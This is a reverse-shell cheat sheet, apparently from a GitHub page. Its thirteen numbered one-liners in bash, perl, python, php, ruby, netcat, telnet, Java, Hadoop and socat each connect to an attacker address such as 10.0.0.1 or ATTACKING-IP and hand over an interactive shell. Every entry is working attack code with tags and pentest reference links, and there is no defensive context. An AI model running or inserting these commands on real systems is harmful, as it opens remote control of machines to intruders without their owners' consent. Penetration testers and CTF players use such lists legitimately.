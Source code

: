 ### 1. bash reverse shell
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
**- linux,bash,reverse shells**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 2. perl reverse shell
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
**- linux,reverse shells,Windows,perl**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 3. python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
**- linux,reverse shells,Windows,python**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 4. php reverse shell : php from the CLI
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**- linux,reverse shells,Windows,php**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 5. ruby reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
**- linux,reverse shells,Windows,ruby**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 6. net cat reverse shell
```
nc -e /bin/sh 10.0.0.1 1234
```
**- linux,reverse shells,Windows**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 7. bash reverse shell using a file handle '5'
```
exec 5<>/dev/tcp/[me]/[port]; while read line 0<&5; do $line 2>&5 >&5; done
```
**- linux,bash,reverse shells**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 8. telnet reverse shell
```
rm -f /tmp/p; mknod /tmp/p p && nc [me] [port] 0/tmp/p
```
**- linux,bash,reverse shells**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 9. telnet reverse shell
```
telnet [me] [port]| /bin/bash | telnet [me] [lport]
```
**- linux,bash,reverse shells**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 10. perl windows reverse shell
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[me]:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
**- reverse shells,Windows,perl**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 11. Java reverse shell - replace ; with newline
```
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor()
```
**- linux,reverse shells,java**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 12. Hadoop Command execution, of course replace the shell with whatever you want
```
./bin/hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input /tmp/out/1 -output /tmp/out/NC_1 -mapper "bash -i >& /dev/tcp/[ip]/[port] 0>&1" -reducer NONE -cmdenv user.name=hdfs -cmdenv as=hdfs -verbose -mapdebug "bash -i >& /dev/tcp/[ip]/[port] 0>&1"
```
**- reverse shells**
#### References:

http://seclist.us/hadoop-attack-library-is-a-collection-of-pentest-tools-and-resources-targeting-hadoop-environments.html
__________
### 13. Socat reverse shell, First on client, second on server
```
socat TCP-LISTEN:[lip],reuseaddr FILE:`tty`,raw,echo=0; socat TCP4:[rip]:[rport] EXEC:bash,pty,stderr,setsid,sigint,sane
```
**- linux,pivoting,reverse shells**
#### References:

https://artkond.com/2017/03/23/pivoting-guide/
__________
